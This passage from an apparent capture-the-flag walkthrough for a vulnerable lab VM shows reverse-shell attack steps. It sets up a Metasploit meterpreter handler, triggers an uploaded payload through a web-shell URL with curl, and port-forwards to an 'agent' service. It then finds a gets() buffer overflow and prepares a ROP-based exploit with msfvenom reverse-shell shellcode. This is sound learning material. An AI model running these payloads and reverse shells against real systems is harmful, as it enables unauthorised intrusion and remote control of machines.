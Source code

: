 in MSF run:
{% highlight bash %}
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 172.16.161.128
set LPORT 4444
run
{% endhighlight %}

Finally, run the script:

curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=.%2Fimf-meterpreter

Once metrepreter prompt is up setup port forwarding for the service:
{% highlight bash %}
portfwd add -l 7788 -p 7788 -r 127.0.0.1
{% endhighlight %}

Open another terminal and hit the service:
{% highlight bash %}
nc localhost 7788
{% endhighlight %}
Now we can interact with the service its time to look at the source again to find a way to exploit.

Combing through the source on line 226:
{% highlight c %}
gets((char *)&str);*
{% endhighlight %}
This reads user input, however the size of the input isn't defined, looks like a possible buffer overflow, basically we're passing in more information that the command is going to properly handle and extending the application's memory outside of it's contextual boundary causing an error to occur.

After doing some reading on ways to exploit the buffer overflow I stumbled onto the idea of return oriented programming, tl;dr; Its a way to execute a buffer overflow when defense mechanisms like code-signing and non-executable memory are employed.  In this technique you can send machine language that is already in the machine's memory, whether through the program being exploited itself or other shared libraries.  When these pieces when combined can be used to perform actions on the remote machine.

I was able to upload the agent binaries we got earlier to ropshell.com which analyzes the compiled code for items in memory that can be used in an exploit, in this case: call eax.

Ater reading through some reference docs for assembly, specifically x86 I have surmised that with our goal being getting a root shell by escaping the 'agent' service causing a buffer overflow to occur and running 'call eax.'  In doing so we would be executing whatever is in the eax register.  Another things we're going to need to do is make sure that our exploit is going to be at the address eax is referencing at runtime.  I'm basing this on using the eax register in the processor can be used to execute code held at a memory address to circumvent normal program execution, in this case getting a root shell.

Now to generate a buffer to overflow using msfvenom:

{% highlight bash %}
msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.161.128 LPORT=4445 -f python -b "\x00\x0a\x0d"
{% endhighlight %}
This command will give up the buffer overflow shellcode for creating a reverse_tcp shell with my machine as the host and 4445 as the portand to exclude newline characters from the output.
